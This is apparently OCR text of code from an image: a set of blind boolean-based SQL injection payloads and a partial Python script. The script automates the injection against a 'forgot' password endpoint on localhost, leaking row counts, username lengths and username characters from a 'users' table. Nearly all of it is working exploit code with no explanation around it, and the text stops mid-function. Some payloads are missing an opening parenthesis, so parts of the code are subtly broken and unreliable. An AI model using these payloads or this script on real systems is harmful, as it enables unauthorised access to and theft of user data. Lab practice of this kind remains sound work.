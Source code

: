 ' or (select ord(substring(username from 2 for 1)) from users limit 1 offset 0) between 0 and 113-- -
' or (select ord(substring(username from 2 for 1)) from users limit 1 offset 0) between 113 and 200-- 
# Find length of the register until we find the real length
' or (select length(username) from users limit 1 offset 0) like 1-- -
' or (select length(username) from users limit 1 offset 0) like 6-- -


# SCRIPT TO AUTOMATE ALL 
import requests

url = 'http://localhost:5000/forgot/'

# Get number of rows in column / matched and unmatched is to make sure our request works and we can diff boolean response
def rowCount(table, max=64):
	# Is our boolean logic good?
	payload = f"a' or (select count(1) from {table}) not like 0-- -/"
	matched = requests.get(url+payload)
	payload = f"a' or (select count(1) from {table}) like 0-- -/"
	unmatched = requests.get(url+payload)
	if matched.text == unmatched.text:
		raise Exception(f"Cannot identify number of columns in {table} Matched({matched.text}) Unmatched({unmatched.text})")
		
	for i in range(0,max):
		# Guess the total numbers
		payload = f"a' or (select count(1) from {table}) like {i}-- -/"
		r = requests.get(url+payload)
		if r.text != unmatched.text:
			return i
			
	raise Exception(f"Cannot identify number of columns in {table})")

# Get Length of the current row
def columnLength(table, column, line, max=64):
	# Is our boolean logic good?
	payload = f"a' or select length({column}) from {table} LIMIT 1 OFFSET {line}) not like 0-- -/"
	matched = requests.get(url+payload)
	payload = f"a' or select length({column}) from {table} LIMIT 1 OFFSET {line}) like 0-- -/"
	unmatched = requests.get(url+payload)
	if matched.text == unmatched.text:
		raise Exception(f"Cannot get Column Length")
		